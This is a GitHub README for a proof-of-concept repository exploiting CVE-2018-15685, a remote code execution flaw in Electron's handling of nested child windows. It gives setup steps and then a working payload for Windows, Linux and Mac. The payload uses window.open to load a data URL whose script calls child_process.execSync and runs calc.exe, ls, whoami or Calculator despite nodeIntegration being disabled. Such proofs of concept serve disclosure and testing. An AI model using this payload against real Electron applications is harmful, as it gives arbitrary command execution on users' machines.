 # CVE-2018-15685 - Electron WebPreferences Remote Code Execution

![enter image description here](https://cdn-images-1.medium.com/max/2000/1*aBsgPiEeOE5lLoippRm7BA.png)
This is a minimal Electron application with a POC for [CVE-2018-15685](https://nvd.nist.gov/vuln/detail/CVE-2018-15685).

> A remote code execution vulnerability has been discovered affecting apps with the ability to open nested child windows on Electron versions (3.0.0-beta.6, 2.0.7, 1.8.7, and 1.7.15). This vulnerability has been assigned the CVE identifier CVE-2018-15685.


The project contains the fillowing files:

- `main.js` - This is the app's **main process**. Note this has `nodeIntegration` disabled so it should not be possibe use "process"
- `index.html` - This is an example rendered page. This could be remotely controlled URL, or a page from an application with an XSS. In this example even though it is a local file but should not have access to node bindings.

## To Use

To clone and run this repository you'll need [Git](https://git-scm.com) and [Node.js](https://nodejs.org/en/download/) (which comes with [npm](http://npmjs.com)) installed on your computer. From your command line:

```bash
# Clone this repository
git clone https://github.com/rahulr311295/Electron_RCE.git
# Go into the repository
cd Electron_RCE
# Start a PHP Server
sudo php -S localhost:80
# Install dependencies
npm install
# Run the app
npm start
```
## To Run

### Windows
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("calc.exe"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and shows which user is currently logged in
```
![Windows](https://media.giphy.com/media/jnRVmVJQ0oIpJ7JdbZ/giphy.gif)
    
### Linux
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which lists files and shows which user is currently logged in
```
![Linux](https://media.giphy.com/media/4ZcOpedgQBPMMWdHsN/giphy.gif)

### Mac
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("open /Applications/Calculator.app"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and lists files in the directory
```
![Linux](https://media.giphy.com/media/48M4iTS1Ue0IU8jetT/giphy.gif)
**For More Information about this Vulnerability **
Full write up on the [Contrast Security blog](https://www.contrastsecurity.com/security-influencers/cve-2018-15685) or the write up on the offical blog from [Electron](https://electronjs.org/blog/web-preferences-fix)

**Credits to**
#### [Matt Austin](https://github.com/matt-) for the original POC

